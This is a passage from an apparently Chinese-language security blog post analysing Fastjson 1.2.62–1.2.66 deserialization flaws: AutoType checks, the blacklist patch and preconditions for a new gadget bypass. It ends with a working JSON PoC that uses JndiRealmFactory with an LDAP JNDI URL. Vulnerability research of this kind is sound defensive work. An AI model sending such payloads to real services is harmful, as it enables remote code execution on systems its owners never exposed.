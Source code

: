 这里是进入了第一个判断的代码逻辑即开启AutoType的检测逻辑，先进行哈希白名单匹配、然后进行哈希黑名单过滤，但由于该类不在黑白名单中所以这块检测通过了并往下执行：

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1262White.png)

往下执行，到未开启AutoType的检测逻辑时直接跳过再往下执行，由于AutoTypeSupport为true，进入调用`loadClass()`函数的逻辑来加载恶意类：

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/AutoTypeSupport.png)

就简单来说，和之前的没什么区别，后续就不再分析了。

### 补丁分析

黑名单绕过的Gadget补丁都是在新版本中添加新Gadget黑名单来进行防御的：[https://github.com/alibaba/fastjson/compare/1.2.62%E2%80%A61.2.66#diff-f140f6d9ec704eccb9f4068af9d536981a644f7d2a6e06a1c50ab5ee078ef6b4](https://github.com/alibaba/fastjson/compare/1.2.62…1.2.66#diff-f140f6d9ec704eccb9f4068af9d536981a644f7d2a6e06a1c50ab5ee078ef6b4)

新版本运行后直接被抛出异常：

JAVA

```
Exception in thread "main" com.alibaba.fastjson.JSONException: autoType is not support. org.apache.xbe
```

在哈希黑名单中添加了该类，其中匹配到了该恶意类的Hash值：

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/EvilRegexHash.png)

## 0x03 1.2.66 反序列化漏洞

### 前提条件

- 开启AutoType；
- Fastjson <= 1.2.66；
- JNDI注入利用所受的JDK版本限制；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；
- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包；

### 漏洞原理

新Gadget绕过黑名单限制。

1.2.66涉及多条Gadget链，原理都是存在JDNI注入漏洞。

org.apache.shiro.realm.jndi.JndiRealmFactory类PoC：

JSON

```
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:1389/Exploit"], "Realms":[""]}
```
